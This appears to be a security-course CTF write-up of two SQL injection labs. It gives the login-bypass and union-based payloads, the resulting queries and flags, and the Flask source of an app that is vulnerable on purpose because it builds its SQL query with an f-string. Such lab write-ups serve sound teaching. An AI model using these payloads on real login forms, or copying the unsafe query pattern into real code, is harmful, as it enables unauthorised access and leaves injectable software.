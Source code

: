 ```yaml
---
title: Simple Web 0x03(Lab - Log me in + Revenge)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/SQL Injection"
---
```


# Simple Web 0x03(Lab - Log me in + Revenge)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8200/
Challenge: http://h4ck3r.quest:8201/

## Exploit - `SQLi`
* Payload → `') or ('1'='1') -- #`
SELECT * FROM admin WHERE (username='') or ('1'='1') -- #') AND (password='MTIz')

Flag: `FLAG{b4by_sql_inj3cti0n}`

## Revenge source code
:::spoiler code
```python!=
from flask import Flask, render_template, redirect, request, g, Response
import sqlite3

app = Flask(__name__)


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/database.db')
        db.row_factory = sqlite3.Row
    return db


@app.before_first_request
def init_db():
    cursor = get_db().cursor()
    cursor.execute("""
    CREATE TABLE IF NOT EXISTS "admin" (
        "username"  TEXT NOT NULL,
        "password"  TEXT NOT NULL
    )
    """)
    cursor.execute("SELECT COUNT(*) as count FROM admin WHERE username='admin'")
    count = cursor.fetchone()['count']
    if count == 0:
        import secrets
        cursor.execute("INSERT INTO admin (username, password) VALUES (?,?)",
                       ('admin', secrets.token_urlsafe()))
    get_db().commit()


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@app.route("/")
def home():
    return render_template("index.html",
                           failed=request.args.get('failed') != None)


@app.route("/login", methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    if not username or not password:
        return redirect("/?failed")

    cur = get_db().execute(f"SELECT * FROM admin WHERE (username='{username}')")
    res = cur.fetchone()
    cur.close()

    if res['username'] == 'admin' and res['password'] == password:
        return "FLAG: FLAG{<REDACTED>}"

    return redirect("/?failed")



@app.route("/source")
def source():
    import re
    source_code = open(__file__).read()
    source_code = re.sub(r'FLAG{[^}\s]+}', 'FLAG{<REDACTED>}', source_code, 1)
    return Response(source_code, mimetype='text/plain')


if __name__ == '__main__':
    app.run(debug=True)

```
:::

## Exploit - `SQLi` + union syntax
1. Observe source code first
It must receive username and password together, or failed otherwise. Thus, we can not use previous payload.
2. Union syntax
Username Payload → `') union select 'admin', 'password' -- #`
Password → `password`
<font color="FF000">SELECT * FROM admin WHERE (username='') union select 'admin', 'password' -- #')</font>

Flag: `FLAG: FLAG{un10n_bas3d_sqli}`

